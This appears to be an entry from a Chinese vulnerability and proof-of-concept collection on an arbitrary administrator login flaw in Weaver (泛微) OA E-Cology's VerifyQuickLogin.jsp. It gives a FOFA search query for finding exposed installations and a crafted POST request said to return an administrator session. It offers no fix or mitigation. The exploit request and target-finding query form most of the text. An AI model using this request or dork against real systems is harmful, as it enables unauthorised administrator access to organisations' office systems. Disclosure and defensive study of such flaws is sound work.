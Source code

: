 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

产品主页

![image-20220824142008751](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241420826.png)

验证POC

```
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![image-20220824142028221](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241420269.png)